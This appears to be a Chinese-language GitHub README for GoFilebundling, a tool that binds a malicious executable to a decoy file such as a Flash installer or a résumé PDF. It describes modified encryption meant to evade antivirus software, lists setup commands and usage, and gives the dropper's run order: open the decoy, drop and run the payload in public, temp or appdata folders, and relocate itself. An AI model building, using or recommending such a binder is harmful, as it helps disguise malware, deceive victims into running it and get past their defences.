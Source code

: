 # GoFilebundling
二开自项目[GoFileBinder](https://github.com/Yihsiwei/GoFileBinder) 修改如下：
* 修改载荷释放路径
* 修改加密算法可免杀部分杀软

```
  ________      ___________.__.__        ___.                     .___.__  .__
 /  _____/  ____\_   _____/|__|  |   ____\_ |__  __ __  ____    __| _/|  | |__| ____    ____
/   \  ___ /  _ \|    __)  |  |  | _/ __ \| __ \|  |  \/    \  / __ | |  | |  |/    \  / ___\
\    \_\  (  <_> )     \   |  |  |_\  ___/| \_\ \  |  /   |  \/ /_/ | |  |_|  |   |  \/ /_/  >
 \______  /\____/\___  /   |__|____/\___  >___  /____/|___|  /\____ | |____/__|___|  /\___  /
        \/           \/                 \/    \/           \/      \/              \//_____/
                GoFilebundling version: 1.1

[+] 恶意文件: calc.exe
[+] 诱饵文件: flashcenter_pp_ax_install_cn.exe
[+] 载荷路径: %public%
[+] 载荷名称: pYvnE.tmp
[+] 生成文件: sZPo.exe
```
# 安装
执行`GoFilebundling1.1.exe`前，先在`同目录下`运行`init.bat`初始化一个新的Go模块和安装非标准库依赖
```
set GOPROXY=https://goproxy.cn,direct
go mod init 1
go get github.com/darkwyrm/b85
go get github.com/gonutz/ide/w32
```

# 使用
GoFilebundling1.1.exe -h
```
  ________      ___________.__.__        ___.                     .___.__  .__
 /  _____/  ____\_   _____/|__|  |   ____\_ |__  __ __  ____    __| _/|  | |__| ____    ____
/   \  ___ /  _ \|    __)  |  |  | _/ __ \| __ \|  |  \/    \  / __ | |  | |  |/    \  / ___\
\    \_\  (  <_> )     \   |  |  |_\  ___/| \_\ \  |  /   |  \/ /_/ | |  |_|  |   |  \/ /_/  >
 \______  /\____/\___  /   |__|____/\___  >___  /____/|___|  /\____ | |____/__|___|  /\___  /
        \/           \/                 \/    \/           \/      \/              \//_____/
                GoFilebundling version: 1.1


use:
        GoFilebundling.exe 恶意文件 诱饵文件
        GoFilebundling.exe main.exe 简历.pdf/flash.exe
```
运行捆绑马执行顺序：

* 当前目录生成诱饵文件并打开
* 在指定目录生成恶意文件并打开
* 移动捆绑马到指定目录下(%public%, %temp%, %appdata%, %ProgramData%)

# 参考
[Qianji](https://github.com/Pizz33/Qianji)

[GoFileBinder](https://github.com/Yihsiwei/GoFileBinder)	
